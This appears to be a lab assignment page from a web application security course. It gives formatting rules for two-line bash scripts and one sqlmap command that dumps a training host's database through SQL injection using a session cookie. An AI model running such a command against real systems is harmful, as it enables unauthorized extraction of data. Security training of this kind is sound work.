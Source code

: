 Welcome to Web Application Security Module \o/

Requirements
General
All your scripts will be tested on Kali Linux 2023.3
All your scripts should be exactly two lines long ($ wc -l file should print 2)
You must substitute the IP range for $1.
All your files should end with a new line (Why?)
The first line of all your files should be exactly #!/bin/bash.
A README.md file, at the root of the folder of the project, is mandatory
Your code should use the Betty style. It will be checked using betty-style.pl and betty-doc.pl
All your files must be executable

sqlmap -u "http://web0x00.hbtn/ticket?id=9" --cookie="session=.eJxFyksKgCAURuG9_GMJmzoqWkIrULyR4AuvUhDtPaGBw_NxHqw2uMhQh_ZMAlvjmgKVIXvLOZXaoZbWm4J2Hgr8-3KRkbeU02lqhICzULNAYypRBxoj3g8vsSW4.Z4BojQ.Hek5BhofOZUbW9No8AdLR5kweLw" --batch --dump
